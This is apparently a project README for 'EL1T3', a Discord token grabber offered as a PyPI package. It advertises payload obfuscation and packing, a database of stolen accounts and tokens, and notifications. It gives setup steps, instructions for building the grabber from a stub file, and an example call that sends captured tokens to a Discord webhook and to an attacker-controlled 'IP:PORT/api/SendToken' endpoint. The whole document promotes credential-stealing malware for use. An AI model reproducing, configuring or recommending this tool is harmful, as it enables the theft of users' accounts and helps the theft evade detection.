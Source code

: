 <h1 align="center">THE EL1T3 PROJECT</h1>

<p align="center">
  <b>Some link:</b><br>
  <a href="https://discord.gg/3UspqWXZtD">Discord</a> |
  <a href="https://www.youtube.com/channel/UC09GPm24_rdeOXa5KOmhDnw">YouTube</a> |
  <a href="https://github.com/Its-Vichy">Github</a> |
  <a href="https://pypi.org/project/EL1T3">PyPI Package</a><br>
  <br>
  <img src="https://media.discordapp.net/attachments/813683001496961065/813783642265747516/6869f4cf0c2f7349903668b562c4e403.gif">
</p>
<h1 align="center">FEATURE</h1>

- Dynamic url
- Private Database
- Remove Duplicate account / token
- Obfuscate and pack payload
- Easy to use
- Noctification

<h1 align="center">HOW TO INSTALL</h1>

- **Run** ``./Setup.py`` **file to install modules**
<img align="center" src="https://media.discordapp.net/attachments/823351707110473789/823361030120931378/unknown.png">

#

<h1 align="center">HOW TO SETUP</h1>

```
+ Open port on host machine
+ Config port in EL1T3_API.py file
```

## 👀 Exemple Code:
```py
from EL1T3 import EL1T3

# Direct Url
EL1T3(dynamic_url= False, webhook_url= "https://discord.com/api/webhooks/81619050/M-BLMxSy5e23way", api_url= 'http://IP:PORT/api/SendToken/?Token=TOKEN-HERE')

# RAW Url
EL1T3(dynamic_url= True, webhook_url= "https://pastebin.com/raw/bNcRrQiK", api_url= 'http://IP:PORT/api/SendToken/?Token=TOKEN-HERE')
```

#

<h1 align="center">BUILD GRABBER</h1>

- **You can edit the grabber code on ``stub.txt`` file**
- **Dynamic api url in builder soon**

<img align="center" src="https://media.discordapp.net/attachments/823543490578219008/823601738585866251/unknown.png">
<img align="center" src="https://media.discordapp.net/attachments/820460842637459460/823377574079234098/unknown.png">
<img align="center" src="https://media.discordapp.net/attachments/820460842637459460/823378287535194212/unknown.png">

#

<h1 align="center">DATABASE SCREENSHOT</h1>
<img align="center" src="https://media.discordapp.net/attachments/823351707110473789/823356873637494794/unknown.png">

#

<h1 align="center">DATABASE NOCTIFICATION</h1>
<img align="center" src="https://media.discordapp.net/attachments/795615135011831828/823969770587684965/unknown.png">

#

## Know problems: Dynamic url error
